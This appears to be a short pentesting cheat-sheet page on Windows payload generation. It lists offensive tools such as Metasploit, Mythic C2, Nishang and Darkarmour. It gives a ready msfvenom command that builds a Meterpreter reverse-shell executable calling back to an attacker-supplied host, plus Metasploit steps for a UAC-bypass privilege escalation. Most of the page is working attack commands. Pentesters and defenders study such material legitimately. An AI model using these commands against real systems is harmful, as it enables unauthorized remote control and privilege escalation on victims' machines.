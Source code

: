 ```yaml
---
title: Windows Payload Generation
category: Access
tags: [download, upload, wget, curl]
tools: ['ftp', 'openssl', 'python', 'impacket-smb-server']
---
```


# Windows Payloads

## Payload Generation

### Tools

| **Resource**                                                 | **Description**                                              |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| [MSFVenom & Metasploit-Framework](https://github.com/rapid7/metasploit-framework) | MSF is an extremely versatile tool for any pentester's toolkit. It  serves as a way to enumerate hosts, generate payloads, utilize public  and custom exploits, and perform post-exploitation actions once on the  host. Think of it as a swiss-army knife. |
| [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings) | Many different resources and cheat sheets for payload generation and general methodology. |
| [Mythic C2 Framework](https://github.com/its-a-feature/Mythic) | An alternative option to Metasploit as a  Command and Control Framework and toolbox for unique payload generation. |
| [Nishang](https://github.com/samratashok/nishang)            | Framework collection of Offensive PowerShell implants and  scripts. It includes many utilities that can be useful to any pentester. |
| [Darkarmour](https://github.com/bats3c/darkarmour)           | A tool to generate and utilize obfuscated binaries for use against Windows hosts. |

### [MSVENOM](../Exploitation/msvenom.md) 

## Quick example: Generating a Windows Meterpreter Payload

A common approach is to use `windows/meterpreter/reverse_tcp` payload:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=4444 -f exe -o shell.exe
```

This command generates an executable that, when run on the target system,  establishes a reverse connection to the attacker’s machine.

## Bypassing UAC for Privilege Escalation

Once a foothold is gained, attempt to bypass User Account Control (UAC):

```
use exploit/windows/local/bypassuac
set SESSION <SESSION_ID>
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```

